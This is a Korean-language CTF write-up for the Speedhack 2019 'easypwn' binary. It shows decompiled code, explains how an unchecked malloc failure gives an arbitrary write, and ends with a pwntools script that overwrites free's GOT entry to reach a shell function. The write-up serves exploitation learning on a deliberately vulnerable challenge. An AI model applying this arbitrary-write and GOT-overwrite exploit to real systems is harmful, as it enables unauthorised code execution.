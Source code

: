 # Speedhack 2019 easypwn

#### mitigation

- Partial RELRO
- Canary 
- NX enabled
- No PIE


#### add 함수

```c
printf("Size: ");
__isoc99_scanf("%d", &size);
v0 = i;
buf[v0] = malloc(size);
printf("Overflow idx: ");
__isoc99_scanf("%ld", &idx);
printf("Data: ");
__isoc99_scanf("%ld, &data);
if ( data > 0x500000 )
    exit(0);
*(buf[i] + idx) = data;
return 0LL;
```

1. 원하는 크기를 입력하고, 힙 할당을 하여 전역 변수 `buf`에 삽임함
2. `idx` 를 입력함
3. 원하는 값을 쓸 수 있게 data를 입력받되, data는 `0x500000` 보다 작아야함
4. 포인터로부터 `idx` 만큼 떨어진 곳에 데이터를 작성함


#### delete 함수

```c
printf("idx: ");
__isoc99_scanf("%d", &v1);
if ( v1 > 9 )
    exit(0);
free(buf[v1]);
result = buf;
buf[v1] = 0LL;
return result;
```

할당한 힙을 해제하고 포인터를 초기화함


#### 취약점

1. `idx`를 기준으로 오버플로우 시키는 방법도 존재하겠지만 `malloc` 포인터에 대한 검증이 존재하지 않기 때문에 NULL을 리턴할 수 있음
2. NULL을 리턴하게 되면 아래와 같은 코드에서 `idx`가 주소를 가리키게 할 수 있음

```cpp
*(buf[i] + idx) = data; // *(0 + idx) = data;
```

이를 이용하여 `free` 혹은 다른 함수의 `GOT`를 주어진 `giveshell` 함수 주소로 덮게 되면 쉘을 획득할 수 있음



#### 레퍼런스 익스플로잇

```python
from pwn import *

def add(size, idx, data):
	print p.sendlineafter(">", "1")
	print p.sendlineafter(":", str(size))
	print p.sendlineafter(":", str(idx))
	print p.sendlineafter(":", str(data))

def delete(idx):
	print p.sendlineafter(">", "2")
	print p.sendlineafter(":", str(idx))

p = remote("0",31337)

add(-1, 0x601018, 0x000000000040083a)

delete(0)

p.interactive()
```
